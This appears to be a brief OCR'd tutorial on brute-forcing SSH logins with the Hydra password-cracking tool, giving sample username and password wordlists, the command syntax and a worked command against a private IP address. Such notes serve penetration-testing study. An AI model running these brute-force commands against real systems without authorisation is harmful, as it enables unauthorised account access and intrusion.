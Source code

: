 1. **Prepare your wordlists.** Create or download text files containing potential usernames and passwords. For example:
    1. username.txt:
        ```
        text
        root
        admin
        user
        test
        ```
    2. password.txt:
        ```
        text
        password
        123456
        changeme
        qwerty
        ```
2. **Construct the Hydra command.** The basic command syntax for SSH brute-forcing with Hydra is:

```hydra -L <userlist.txt> -P <passlist.txt> <target_ip> ssh```
(small l for single user, L for list, same with p (password))

3. Run the command. Execute the command in your terminal, replacing the placeholders with your actual file names and the target IP address.Example: ```hydra -L username.txt -P password.txt 192.168.1.11 ssh```


What is hydra?
Password-cracking tool that does dictionary and brute-force and hybrid attacks